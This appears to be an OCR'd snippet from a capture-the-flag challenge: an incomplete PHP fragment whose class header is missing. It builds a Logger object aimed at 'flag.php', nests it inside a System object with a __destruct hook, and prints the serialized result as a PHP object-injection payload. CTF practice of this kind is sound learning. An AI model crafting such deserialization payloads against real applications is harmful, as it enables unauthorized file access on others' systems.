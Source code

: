 ```php
{
    public $logger;

    function __destruct()
    {
        $this->logger->log("CTF!");
    }

}

$logger = new Logger();
$logger->file = "flag.php";

$system = new System();
$system->logger = $logger;

echo serialize($system);


?>

```

